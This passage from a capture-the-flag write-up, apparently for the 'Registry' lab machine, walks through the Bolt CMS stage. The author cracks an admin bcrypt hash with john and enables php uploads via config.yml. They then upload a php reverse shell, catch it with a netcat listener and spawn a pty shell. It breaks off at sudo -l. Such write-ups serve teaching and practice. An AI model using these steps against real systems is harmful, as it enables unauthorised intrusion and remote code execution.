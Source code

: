 This way I got the user `bolt`.


## To Root

### Web Enumeration

After a lot of dir search with different wordlist I finally got the login page of `bolt` cms site as.

![bolt_login](/public/images/bolt_login.jpg)

Fig: Login Page


then I searched everypart of the bolt shell and got the hash in dir */var/www/html/app/database/bolt.db* and on `cat` I got the hash *$2y$10$e.ChUytg9SrL7AsboF2bX .wWKQ1LkS5Fi/Z0yYD86.P5E9cpY7P*. Now I used `john` to crack the hash and got the password `strawberry`.

```
root@gr4n173:~$ john hash -wordlist=/usr/share/wordlists/rockyou.txt
[sudo] password for bikram: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
strawberry       (?)
1g 0:00:00:05 DONE (2020-04-03 14:02) 0.1992g/s 71.71p/s 71.71c/s 71.71C/s strawberry..brianna
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

I used that creds(`admin:strawerry`) and logged in bolt cms.

![bolt_logged](/public/images/bolt_logged.jpg)

Fig: Admin User

### Unprivileged User 
After logged in, I searched every part of cms and found the file upload field where I was unable to upload the `php` file. Since I was `admin` edited and added `php` extension in file `config.yml` which was located at url `http://registry.htb/bolt/bolt/file/edit/config/config.yml`  with a `php-reverse-shell.php` and listener on.
I found one interesting blog [CSRF-TO-RCE](https://fgsec.net/from-csrf-to-rce-bolt-cms/) you can read it.

![rest_server](/public/images/rest_server.jpg)
Fig: Uploaded File

**Listner on**:

```
root@gr4n173:~$ nc -lvnp 8888
listneing on [any] 8888

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58100
Linux bolt 4.15.0-65-generic #74-Ubuntu SMP Tue Sep 17 17:06:04 UTC x86_64 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0 can't access tty;job contorl turned off
$ $python -c "import pty;pty.spawn('/bin/bash')"
www-data@bolt:$ sudo -l 
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
```